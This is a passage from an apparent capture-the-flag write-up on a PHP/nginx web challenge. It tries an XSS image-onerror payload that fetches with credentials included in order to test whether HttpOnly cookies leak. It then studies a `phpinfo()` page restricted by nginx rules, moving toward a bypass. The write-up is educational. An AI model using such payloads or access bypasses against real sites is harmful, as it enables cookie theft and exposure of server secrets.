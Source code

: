 After injecting into the instance a test cookie by running `document.cookie="test=yes"`, then tagging it as `HttpOnly` in DevTools, I send a simple fetch request with `credentials: "include"`. This *should* send any credentials over...? The HTML in question, after being injected, would look like such:

```html
<img onerror="fetch('http:\\localhost:5000',{credentials:'include'})" src="">
```

Hmm... Nope, doesn't work. Even if it *did* work, it wouldn't work on the remote setup, as they aren't hosted on the same domain. It's time we turn to something else.

## The magic of `phpinfo()`

In the source code given to you, there's also another file alongside `index.php`, and that's `info.php`.

```php
<?php
phpinfo();
?>
```

A simple 3-liner, calling the function `phpinfo()`. So, what does this do? It prints out *all* the current state of PHP for the currently running server, in a very neat page that's easy to parse (this will be very important!).

> `phpinfo()` is also a valuable debugging tool as it contains all EGPCS (Environment, GET, POST, Cookie, Server) data. \
> \- [Official PHP manual](https://www.php.net/manual/en/function.phpinfo.php)

So... I can just access `info.php` from the link and get the flag right? Of course, it's not so simple, for two reasons. One, the flag itself only gets injected by the admin bot instance. Two, you *will* get a 403 if you try to access the site, even on a local setup, thanks to this `nginx` config:

```nginx
# unrelated sections omitted for brevity
location = /info.php {
    allow 127.0.0.1;
    deny all;
}
```

Seems like we're at a dead end here. But, let's take a deeper look at the config section following the above:

```nginx
location ~ \.php$ {
    root           /usr/share/nginx/html;
    fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
    include fastcgi_params;
    fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
}
```

First, this sets the root to `/usr/share/nginx/html` - the same root as `index.php`. Second, the `location ~ \.php$` matches any requests to `*.php` that isn't **exactly** `info.php`. The file name gets captured and passed into the FastCGI parameter `SCRIPT_FILENAME` as `$fastcgi_script_name`, and then served.
